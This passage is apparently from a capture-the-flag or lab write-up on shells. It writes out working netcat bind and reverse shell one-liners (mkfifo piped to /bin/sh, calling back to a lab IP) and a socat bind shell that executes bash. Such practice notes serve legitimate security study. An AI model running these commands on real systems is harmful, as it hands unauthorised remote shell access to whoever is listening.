 * Log into the Linux machine over SSH using the credentials in task 14. Use the techniques in Task 8 to experiment with bind and reverse netcat shells.

	* Bind shell

		* Step 1 on target machine = `mkfifo /tmp/f; nc -lvnp 8888 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
		* step 2 on our machine = `nc 10.10.227.114 8888`

		![task13-common-bindshell](./images/task13-common-bindshell.png)

	* Reverse shell

		* Step 1 on our machine = `nc -lvnp 9999`
		* Step 2 on target machine = `mkfifo /tmp/f; nc 10.13.52.88 9999 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

		![task13-common-reverse](./images/task13-common-reverse.png)

* Practice reverse and bind shells using Socat on the Linux machine. Try both the normal and special techniques.

	#### Socat normal techniques

	* Bind shell

		* Step 1 on target machine = `socat TCP-L:8888 EXEC:"bash -li"`
		* Step 2 on our machine = `socat TCP:10.10.227.114:8888 -`
		